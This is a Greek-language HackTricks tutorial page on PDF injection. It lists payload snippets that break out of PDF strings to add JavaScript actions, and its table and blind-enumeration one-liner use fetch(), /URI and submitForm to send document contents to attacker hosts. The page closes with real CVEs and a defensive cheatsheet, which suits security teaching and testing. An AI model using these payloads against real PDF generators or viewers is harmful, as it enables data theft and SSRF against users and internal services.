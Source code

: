 # PDF Injection

{{#include ../../banners/hacktricks-training.md}}

**Αν η είσοδός σας ανακλάται μέσα σε ένα αρχείο PDF, μπορείτε να προσπαθήσετε να εισάγετε δεδομένα PDF για να εκτελέσετε JavaScript, να πραγματοποιήσετε SSRF ή να κλέψετε το περιεχόμενο του PDF.**
Η σύνταξη PDF είναι εξαιρετικά επιεικής – αν μπορείτε να σπάσετε τη συμβολοσειρά ή το λεξικό που ενσωματώνει την είσοδό σας, μπορείτε να προσθέσετε εντελώς νέα αντικείμενα (ή νέες κλειδιά στο ίδιο αντικείμενο) που το Acrobat/Chrome θα αναλύσει ευχαρίστως.
Από το 2024, μια σειρά αναφορών bug-bounty έχει δείξει ότι *μία μη διαφραγμένη παρένθεση ή αντίστροφη κάθετος είναι αρκετή* για πλήρη εκτέλεση σεναρίου.

## TL;DR – Σύγχρονη Ροή Επίθεσης (2024)
1. Βρείτε οποιαδήποτε τιμή ελεγχόμενη από τον χρήστη που καταλήγει μέσα σε μια **(συμβολοσειρά παρένθεσης)**, `/URI ( … )` ή `/JS ( … )` πεδίο στο παραγόμενο PDF.
2. Εισάγετε `) ` (κλείνοντας τη συμβολοσειρά) ακολουθούμενο από μία από τις παρακάτω πρωτότυπες και τελειώστε με άλλη μια ανοιχτή παρένθεση για να διατηρήσετε τη σύνταξη έγκυρη.
3. Παραδώστε το κακόβουλο PDF σε ένα θύμα (ή σε μια υπηρεσία backend που αυτόματα αποδίδει το αρχείο – εξαιρετικό για τυφλά σφάλματα).
4. Το payload σας εκτελείται στον αναγνώστη PDF:
* Chrome / Edge → PDFium Sandbox
* Firefox → PDF.js (βλ. CVE-2024-4367)
* Acrobat → Πλήρης JavaScript API (μπορεί να εξάγει περιεχόμενα αρχείων με `this.getPageNthWord`)

Παράδειγμα (κατάχρηση συνδέσμου σημείωσης):
```pdf
(https://victim.internal/) ) /A << /S /JavaScript /JS (app.alert("PDF pwned")) >> /Next (
```
*Η πρώτη `)` κλείνει την αρχική συμβολοσειρά URI, στη συνέχεια προσθέτουμε ένα νέο **Action** λεξικό που θα εκτελέσει το Acrobat όταν ο χρήστης κάνει κλικ στον σύνδεσμο.*

## Χρήσιμα Injection Primitives
| Στόχος | Payload Snippet | Σημειώσεις |
|------|-----------------|-------|
| **JavaScript κατά το άνοιγμα** | `/OpenAction << /S /JavaScript /JS (app.alert(1)) >>` | Εκτελείται αμέσως όταν ανοίγει το έγγραφο (λειτουργεί στο Acrobat, όχι στο Chrome). |
| **JavaScript κατά τον σύνδεσμο** | `/A << /S /JavaScript /JS (fetch('https://attacker.tld/?c='+this.getPageNumWords(0))) >>` | Λειτουργεί σε PDFium & Acrobat αν ελέγχετε μια `/Link` σημείωση. |
| **Blind data exfiltration** | `<< /Type /Action /S /URI /URI (https://attacker.tld/?leak=)` | Συνδυάστε με `this.getPageNthWord` μέσα σε JS για να κλέψετε περιεχόμενο. |
| **Server-Side SSRF** | Το ίδιο με παραπάνω αλλά στοχεύστε σε μια εσωτερική διεύθυνση URL – εξαιρετικό όταν το PDF αποδίδεται από υπηρεσίες back-office που σέβονται το `/URI`. |
| **Διάλειμμα γραμμής για νέα αντικείμενα** | `\nendobj\n10 0 obj\n<< /S /JavaScript /JS (app.alert(1)) >>\nendobj` | Αν η βιβλιοθήκη σας επιτρέπει να εισάγετε χαρακτήρες νέας γραμμής, μπορείτε να δημιουργήσετε εντελώς νέα αντικείμενα. |

## Blind Enumeration Trick
Ο Gareth Heyes (PortSwigger) δημοσίευσε μια μία γραμμή που καταμετρά κάθε αντικείμενο μέσα σε ένα άγνωστο έγγραφο – χρήσιμο όταν δεν μπορείτε να δείτε το παραγόμενο PDF:
```pdf
) /JS (for(i in this){try{this.submitForm('https://x.tld?'+i+'='+this[i])}catch(e){}}) /S /JavaScript /A << >> (
```
Ο κώδικας επαναλαμβάνει το Acrobat DOM και κάνει εξωτερικά αιτήματα για κάθε ζεύγος ιδιότητας/τιμής, δίνοντάς σας μια *JSON-ish* εξαγωγή του αρχείου. Δείτε το λευκό έγγραφο “Portable Data **ex**Filtration” για την πλήρη τεχνική.

## Real-World Bugs (2023-2025)
* **CVE-2024-4367** – Αυθαίρετη εκτέλεση JavaScript στο PDF.js του Firefox πριν από την 4.2.67 παρακάμπτει το sandbox με μια κατασκευασμένη ενέργεια `/JavaScript`.
* **Bug bounty 2024-05** – Μεγάλη fintech επέτρεψε σημειώσεις τιμολογίων που παρέχονταν από πελάτες και κατέληγαν στο `/URI`; η αναφορά πληρώθηκε $10k μετά από αποδεδειγμένο SSRF σε εσωτερικό μεταδεδομένο host χρησιμοποιώντας `file:///` URI.
* **CVE-2023-26155** – Η εντολή `node-qpdf` μέσω μη απολυμασμένης διαδρομής PDF δείχνει τη σημασία της απόδρασης των backslashes και των παρενθέσεων ακόμη *πριν* από το επίπεδο PDF.

## Defensive Cheatsheet
1. **Ποτέ μην συνδυάζετε ακατέργαστη είσοδο χρήστη** μέσα σε `(`…`)` συμβολοσειρές ή ονόματα. Απόδραση `\`, `(`, `)` όπως απαιτείται από το §7.3 της προδιαγραφής PDF ή χρησιμοποιήστε δεκαεξαδικές συμβολοσειρές `<...>`.
2. Εάν δημιουργείτε συνδέσμους, προτιμήστε `/URI (https://…)` που να *κωδικοποιείτε πλήρως* URL; αποκλείστε τα σχήματα `javascript:` στους πελάτες προβολής.
3. Αφαιρέστε ή επικυρώστε τα λεξικά `/OpenAction`, `/AA` (επιπλέον ενέργειες), `/Launch`, `/SubmitForm` και `/ImportData` κατά την επεξεργασία PDF.
4. Από την πλευρά του διακομιστή, αποδώστε μη αξιόπιστα PDFs με έναν *headless converter* (π.χ. qpdf –decrypt –linearize) που αφαιρεί JavaScript και εξωτερικές ενέργειες.
5. Διατηρήστε τους προβολείς PDF ενημερωμένους; PDF.js < 4.2.67 και Acrobat Reader πριν από τον Ιούλιο του 2024 επιτρέπουν απλή εκτέλεση κώδικα.

## References
* Gareth Heyes, “Portable Data exFiltration – XSS for PDFs”, PortSwigger Research (updated May 2024). <https://portswigger.net/research/portable-data-exfiltration>
* Dawid Ryłko, “CVE-2024-4367: Arbitrary JavaScript Execution in PDF.js” (Apr 2024). <https://dawid.dev/sec/cve-2024-4367-arbitrary-javascript-execution-in-pdf-js>
{{#include ../../banners/hacktricks-training.md}}
